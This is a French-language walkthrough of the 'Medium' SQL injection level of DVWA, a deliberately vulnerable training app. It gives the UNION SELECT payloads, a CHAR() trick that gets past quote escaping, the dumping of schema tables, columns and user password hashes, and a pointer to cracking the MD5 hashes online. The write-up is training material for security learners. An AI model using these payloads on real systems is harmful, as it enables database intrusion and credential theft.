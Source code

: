# Niveau "Medium"

Le formulaire est légèrement modifié ici puisque l'application nous présente non plus un champ de type `<input>` mais une liste de sélection `<select>` :

![](../../../../.gitbook/assets/01cdc18d716ae4bddce7d1c64bb83075.png)

Pour un soucis de simplicité, j'utilise ici l'extension Web Developer (possible via Burp également) qui va convertir ce nouveau formulaire en champ de type `<input>` :

![](../../../../.gitbook/assets/50601a1b929aae8bcc75f6023ff5fc6d.png)

On tente d'injecter notre caractère spécial `"'"` afin de générer une erreur SQL :

![](../../../../.gitbook/assets/0af6ed1e681ffc6f5b9b95c97ca44859.png)

L'erreur nous informe sur la présence d'une protection car le caractère `"'"` est échappé (via le caractère `"\"`). De plus, l'erreur nous indique qu'il s'agit sans doute d'une injection de type numérique et non plus de type String (nombre de `"'"` entourant notre donnée).

Sans reprendre toutes les étapes de reconnaissance (déjà effectuées pour le niveau "Low"), voici l'exploitation de l'injection dans les grandes lignes :

```sql
1 UNION SELET 1,2
```

![](../../../../.gitbook/assets/8a1a58636b34849d9a72d55aedb3d7a3.png)

L'échappement effectué par l'application est un peu embêtant car il nous empêche d'effectuer notre clause `WHERE` :&#x20;

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = 'dvwa' -- 
```

![](../../../../.gitbook/assets/064b4c7ce96c1e4813c22f82ea99e670.png)

Afin de contourner cette limitation on peut, soit supprimer notre clause, ce qui aura pour conséquence de retourner une liste de toutes les tables des différentes bases, ou alors, d'utiliser la fonction `CHAR()` de MySQL :

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/4bdb391ab3998433c70c6425147d293f.png)

Maintenant que nous pouvons contourner l'échappement en place, la suite est facile :

```sql
6 UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/8004e892184bbee82544170bd286f0c0.png)

Puis finalement :

```sql
6 UNION SELECT user,password FROM dvwa.users
```

![](../../../../.gitbook/assets/d564f4efc9dd1d64a60832cbd563ab3d.png)

Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](<../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7 (1).png>)
